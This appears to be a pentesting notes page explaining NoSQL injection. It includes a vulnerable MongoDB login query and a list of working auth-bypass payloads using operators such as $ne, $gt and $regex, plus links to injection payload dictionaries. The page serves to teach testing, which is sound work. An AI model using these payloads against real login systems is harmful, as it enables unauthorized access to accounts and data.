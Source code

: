 ```yaml
---
title: NoSQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
```

#  NoSQL injection

!!! tip "Related resources"
	- [Detailed SQLi Cheat sheet for manual attack](../sqli-manual-attack.md).
	- [SQL injection](sql-injection.md)
	- [NoSQL injection](nosql-injection.md)
	- [SQLite injections](sqlite-injections.md)


[Dictionary for NoSQL injections](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/NoSQL-injections.md).

Examples of NoSQL databases: [redis](../6379-redis.md), [mongo](../mongo.md).

??? example "Languages and dictionaries"
	| Server | Dictionary |
	| -- | -- |
	|  [MySQL](../mysql.md) | [MySQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MySQL%20Injection.md). | 
	| [MSSQL](../mssql.md) | [MSSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/MSSQL%20Injection.md). |
	|  [PostgreSQL](../5432-postgresql.md) | [PostgreSQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/PostgreSQL%20injection.md). |
	|  [Oracle](../1521-oracle-transparent-network-substrate.md) | [Oracle SQL payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Oracle-SQL-injections.md). |
	| [SQLite](sqlite-injections.md) | [SQLite payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/SQLite-injection.md). | 
	| Cassandra | [Cassandra payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/Cassandra%20Injection.md). | 

??? example "Attack-based dictionaries"
    - [Generic SQL Injection Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/generic-injections)
    - [Generic Error Based Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/error-based).
    - [Generic Union Select Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/union-select).
    - [SQL time based payloads ](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/time-based).
    - [SQL Injection Auth Bypass Payloads](https://github.com/amandaguglieri/dictionaries/blob/main/SQL/auth-bypass) 



SQL stands for Structure Query Language. NoSQL Injection is a security vulnerability that occurs in applications that utilize NoSQL databases. It is a type of attack that involves an attacker manipulating a NoSQL database query by injecting malicious input, leading to unauthorized access, data leakage, or unintended operations. In traditional SQL Injection attacks, attackers exploit vulnerabilities by inserting malicious SQL code into input fields that are concatenated with database queries. Similarly, in NoSQL Injection, attackers exploit weaknesses in the application's handling of user-supplied input to manipulate NoSQL database queries.

**How does it work a NoSQL injection?** Explanation: 

```
# MongoDB query
var query = {
username: username,
password: password
};

# Perform query to check if credentials are valid
var result = db.users.findOne(query);

if (result) {
// Login successful
} else {
// Login failed

```

In this example, the application constructs a MongoDB query using user-supplied values for the username and password fields. If an attacker intentionally provides a specially crafted value, they could potentially exploit a NoSQL injection vulnerability. For instance, an attacker might enter the following value as the username parameter:

```
$gt:""
```

The attacker could potentially bypass the login mechanism and gain unauthorized access.

Typical payloads:

```
# Payload
username[$ne]=1$password[$ne]=1
# Use case/Function: Not equals to (Auth Bypass)                |

# Payload
username[$regex]=^adm$password[$ne]=1
# Use case/Function: Checks a regular expression (Auth Bypass)

# Payload
username[$regex]=.{25}&pass[$ne]=1
# Use case/Function: Checks regex to find the length of a value

# Payload
username[$eq]=admin&password[$ne]=1 
# Use case/Function: Equals to.

# Payload
username[$ne]=admin&pass[$gt]=s 
# Use case/Function: Greater than.
```


Example of a user search form: 

![](../img/nosql_01.png)

With the not equal operator, it will return all users except for "admin".

![](../img/nosql_02.png)